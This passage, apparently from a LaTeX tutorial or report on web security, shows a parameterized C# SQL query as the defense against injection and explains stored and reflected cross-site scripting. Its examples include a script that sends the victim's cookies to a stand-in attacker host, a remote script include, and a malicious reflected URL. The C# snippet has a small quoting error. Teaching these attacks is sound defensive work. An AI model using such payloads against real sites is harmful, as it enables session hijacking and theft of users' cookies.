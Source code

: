 \documentclass[a4paper]{article}
\begin{document}
\begin{verbatim}
string username = "johnsmith";
string query = "SELECT * FROM Users WHERE Username=@param_username";
SqlCommand cmd = new SqlCommand(query);
cmd.Parameters.AddWithValue("@param_username, username);
\end{verbatim}

This way, if an attacker sends \texttt{login' OR '1'='1} to the application,
it will not cause any harm, because the query would simply try to find a user
with name \texttt{login' OR '1'='1}.

\subsection{Cross-Site Scripting (XSS)}

\subsubsection{How it works}

Cross-Site Scripting is closely related to injection as it works by inserting a
malicious code to the application. There are two categories of this attack:
stored and reflected.\autocite{xss}

The first one occurs when injected code is stored permanently on the server. An
example could be a comment on a forum, which contains Javascript code. If the
vulnerability is present, it will not be displayed on the page, but it will be
executed. It could be simple like:

\begin{verbatim}
<script>document.createElement('img').src =
	'http://attackerswebsite.com/' + document.cookie</script>
\end{verbatim}

This script would create an HTTP request to attacker's website with the victim's
cookies, which could contain for example very useful session token. It is also
possible to include much bigger scripts with:

\begin{verbatim}
<script src="http://attackerswebsite.com/evilscript.js"></script>
\end{verbatim}

The reflected attack works by reflecting the injected code off the trusted
website. For example, an attacker might send a malicious URL to the victim, e.g:
\texttt{http://website.com/<script\%20src="http://attackerswebsite.com/
evilscript.js"></script>}. The URL itself is not dangerous, but the vulnerable
website might show an error message containing the URL, thus embedding it and
executing the injected script.
\end{document}

